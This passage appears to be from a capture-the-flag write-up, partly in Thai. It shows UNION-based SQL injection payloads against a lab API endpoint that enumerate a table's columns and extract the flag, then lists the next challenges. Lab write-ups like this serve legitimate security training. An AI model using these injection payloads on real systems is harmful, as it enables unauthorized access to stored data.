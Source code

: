 ![Column 2](images/17.png)

`Column 2`

```txt
/api/v1/vault/data?id=0 UNION ALL SELECT NULL, name as secret FROM pragma_table_info("flags") LIMIT 1 OFFSET 1
```

มีชื่อ id, flag เราเลย select เอา flag จาก table นี้ดู

![flag from table flags](images/18.png)

`flag from table flags`

```txt
/api/v1/vault/data?id=0 UNION ALL SELECT NULL, flag as secret FROM flags
```

เจอแล้ว !!

```txt
web{yPZoQ9BJ9}
```

# Enter Captcha

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/enter-captcha)

# App.jar

_Flag on App.jar, Can you find it?_ \
_Password for unzip: secplayground_ \
_Format flag: re{…}_
